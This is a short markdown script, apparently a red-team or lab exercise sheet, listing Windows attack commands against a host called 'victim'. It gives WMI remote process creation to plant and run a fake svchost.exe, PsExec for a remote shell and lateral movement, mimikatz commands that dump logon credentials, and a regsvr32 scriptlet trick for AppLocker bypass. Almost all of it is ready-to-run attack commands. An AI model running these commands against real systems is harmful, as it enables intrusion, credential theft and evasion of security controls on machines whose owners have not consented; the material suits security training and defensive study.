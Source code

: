 # Script

## Process Execution with WMI
> Use WMI to build a backdoor (See page 17/18 of [Abusing Windows Management Instrumentation by Matt Graeber](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf) for more information on this technique)
```
wmic /node:"victim" process call create "cmd.exe /c copy c:\windows\system32\svchost.exe c:\malicious\svchost.exe"
wmic /node:"victim" process call create "cmd.exe /c c:\malicious\svchost.exe" 
```

## Lateral movement
> Start a remote shell on the victim, verify by running ```hostname``` and start mimikatz
```
c:\tools\psexec\PsExec.exe /accepteula \\victim cmd
hostname
c:\tools\mimikatz\x64\mimikatz
```

> In mimikatz execute the following commands and verify if the hashes are visible
```
privilege::debug
sekurlsa::logonpasswords
exit
```

## Arbitrary code execution
> Use regsvr32 to run arbitrary code on the victim and bypass AppLocker (while in the remove shell)
```
cd c:\malicious
regsvr32.exe /s /u /i:C:\tools\test.sct scrobj.dll
```